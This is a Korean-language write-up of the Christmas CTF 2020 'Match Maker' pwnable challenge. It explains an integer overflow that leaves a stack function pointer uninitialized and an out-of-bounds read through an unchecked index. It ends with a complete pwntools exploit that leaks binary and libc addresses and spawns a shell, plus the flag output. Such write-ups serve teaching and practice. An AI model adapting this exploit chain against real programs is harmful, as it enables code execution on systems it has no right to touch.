

---

title: "[Write-Up] Christmas CTF 2020 - Match Maker"
author: Fabu1ous
tags: [Fabu1ous, pwnable, oob, uninitialized stack, integer overflow]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: /2020/12/29/fabu1ous/match-maker/8.png
---

# 문제 개요


1. 프로필을 만듭니다.
   * 이름, 나이, 성별, 취미를 입력
   * 나이 정보에 따라 파트너 매칭 함수가 달라짐

1. 만든 프로필을 저장합니다.

   - 만들어진 프로필을 힙에 저장
   - 성별을 구분하여 전역 배열에 힙 주소 저장.

2. 파트너 매칭을 합니다.

3. 매칭 된 파트너의 정보를 출력합니다.

4. 유저 리스트를 출력합니다.

   - 현재 프로필이 남자면 여자 리스트를 출력
   - 현재 프로필이 여자면 남자 리스트를 출력

   

# 풀이 요약

find match 기능에서 사용할 알고리즘을 정하는 로직이 존재합니다. pref_min_age != pref_max_age이면서 pref_min_age ^ 2 == pref_max_age ^ 2 일 때 초기화되지 않은 스택의 쓰레기 값으로 rip를 조작할 수 있습니다. int-overflow를 활용하면 됩니다.

show user list 기능에서 user list를 참조할 때 sex ^1을 index로 사용합니다. 프로필 작성 시 성별 입력값에 제한이 없기 때문에 이를 이용해 바이너리 base주소와 libc base 주소를 얻을 수 있습니다.


# 취약점

* int overflow → uninitialized stack


프로필 생성 메뉴에서 입력받은 나이 정보를 토대로 파트너 매칭 루틴을 정하는 코드입니다. if...else가 아닌 if...if 이므로 integer overflow를 발생시켜 `(void*)func()`의 값을 스택에 있던 쓰레기 값으로 설정할 수 있습니다.


연상 혹은 연하 중 선호하는 쪽을 계산하는 루틴에서 절댓값을 사용합니다. 입력할 수 있는 나이에 최댓값 제한이 없기 때문에 int overflow를 발생시켜 스택 변수 `(void*)func()를` 초기화하는 작업을 건너뛸 수 있습니다.


`(void*)func()`값에 영향을 미치는 쓰레기 값은 name을 입력받을 때 사용하던 버퍼입니다.


메인 메뉴에서 find match를 선택하면 rip가 잡히는 것을 확인할 수 있습니다.


* out of bound read



성별은 int로 입력받습니다.

0 : 남자

1 : 여자


현재 프로필이 남자면 여자 유저 리스트를, 여자면 남자 리스트를 출력해주는 함수입니다. 0도 1도 아닌 다른 값을 성별로 입력하면 oob-read가 가능합니다. binary의 base주소, libc의 base주소를 leak 할 수 있습니다.


# Exploit

```python
from pwn import*

p = process('./match')

#gdb.attach(p)
#context.log_level='debug'

def make(age, name, Pmin, Pmax, sex):
	p.sendlineafter('> ', '0')
	p.sendlineafter('age: ', age)
	p.sendlineafter('name: ', name)
	p.sendlineafter('min age limit for you: ', Pmin)
	p.sendlineafter('max age limit for you: ', Pmax)
	p.sendlineafter('> ', sex)
	p.sendlineafter('enter hobby 1 : ', '1')
	p.sendlineafter('enter hobby 2 : ', '2')
	p.sendlineafter('enter hobby 3 : ', '3')
	
def save():
	p.sendlineafter('> ', '1')
	
def find():
	p.sendlineafter('> ', '2')
	
def showL():
	p.sendlineafter('> ', '4')

# leak bin base
make('65536', b'A'*16+b'BBBBBBBB', '0', '196608', '-2')
showL()
p.recvuntil('[potential partners]\\n0. ')
leak = u64(p.recv(6)+b'\\x00\\x00')
bin_base = leak - 0x5008
log.info(hex(bin_base))

# leak read@libc
make('65536', p64(bin_base+0x4fa0)+b'BBBBBBBBCCCCCCCC', '0', '196608', '23')
save()
showL()
p.recvuntil('[potential partners]\\n0. ')
leak = u64(p.recv(6)+b'\\x00\\x00')
system = leak - 0xbbd20
log.info(hex(system))

make('65536', b'/bin/sh;'+b'B'*8+p64(system), '0', '196608', '23')
find()

p.interactive()
```

```plain
[+] Opening connection to localhost on port 1234: Done
[*] 0x55ad3a345000
[*] 0x7f414a9ec410
[*] Switching to interactive mode
$ cat flag
XMAS{1_d0n7_w4nna_kn0w_who'5_tak1ng_U_h0me}
```

